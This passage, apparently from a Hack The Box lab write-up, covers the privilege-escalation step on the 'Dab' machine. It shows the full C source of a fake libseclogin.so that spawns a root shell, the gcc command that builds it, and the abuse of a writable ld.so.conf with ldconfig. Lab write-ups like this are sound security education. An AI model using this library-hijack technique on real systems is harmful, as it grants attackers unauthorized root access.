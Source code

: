 ```  
That's kinda weird, cuz this isn't a common sharedlib function, and that name corresponds to the **seclogin()** function that our binary calls, as we saw above. So, basically, we must build our own sharedlib **libseclogin.so**, cuz if we can replace it with another our lib and link to it, the binary will run it as root.  
Before start with our libsec build, lets see some important things: How we can make **myexec** calls our lib instead the default one? maybe well, we could try to use the ld_preload. so, lets take a look aboutit. With **LD_PRELOAD** you can give libraries precedence. Ex: If you set **LD_PRELOAD** to the path of a shared object, that file will be loaded before any other library (including the C runtime, libc.so). but, that's doensn't works as well on suid binaries for security reasons. But, we have root execution on **[ldconfig](http://man7.org/linux/man-pages/man8/ldconfig.8.html)**, and as we can see, it using the config file /etc/ld.so.conf to load and cache shared libraries.  
![ldsoconf](/assets/images/htb/dab/28.png)  
Basically, the config says to include any `*.conf` file, and we have world-writable acess. so, we can add our own config file, that's points to our controlled folder with our builded fake sharedlib. Lets do it.  
Firstly, we make a folder where we have permission to write, then we puts our fake sharelib into it, compile it and then points to it writing a .conf file at ld.so.conf. After that, we need to use ldconfig (which, as we have seen, we have root permission) to change the path.  
The fake lib.c:  
```
#include <stdio.h>
#include <stdlib.h>  
void seclogin()
{
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
```
Compile with:  
`gcc -fPIC -shared -o libseclogin.so exploit.c`  
![98](/assets/images/htb/dab/98.png)  
![99](/assets/images/htb/dab/99.png)  
![100](/assets/images/htb/dab/100.png)  
## Concluding remarks  
that's was a nice box by hackthebox, i've learn a lot. I hope somehow this post will be useful to you in life, or in some other world. Otherwise, Lets pwn the world!  
---  
### References  
* [Set OR Change The Library Path](https://www.cyberciti.biz/faq/linux-setting-changing-library-path/)  
* [ldconfig manual](https://linux.die.net/man/8/ldconfig)  
* [Mysql memcached](https://downloads.mysql.com/docs/mysql-memcached-en.a4.pdf)  
* [Memcached cheatsheet by lzone](https://lzone.de/cheat-sheet/memcached)